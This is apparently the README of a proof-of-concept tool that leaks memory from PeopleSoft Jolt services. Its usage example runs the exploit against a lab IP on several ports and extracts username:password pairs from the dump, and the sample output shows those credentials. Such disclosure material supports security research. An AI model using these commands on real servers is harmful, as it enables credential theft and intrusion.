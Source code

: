 # Install
```
$ pip install --user hexdump
```
# WARNING
Don't test on productuion servers.

# Info
Tested only on \*nix systems. 
```
$ psreleaseinfo
ToolsRelease: 8.55
ToolsReleaseDB: 8.55
```

# Usage example
```
$ python jolt_and_bleed_poc.py -s 192.168.56.101 -d out.bin -p 9034 9035 9036 9037 9038
...
...
Done

$ python extractCreds.py out.bin
RCLAYBURN:aeM9CuaXatohr1aixe9pohx4u
SADAMS:Ohl0ac4Gaasilae4Nouzoheeh
AJORDAN:peeW1bevoh7eitah1aucheegh
DMANAGER:ohquaix6aipoa6Euy7shu5moH
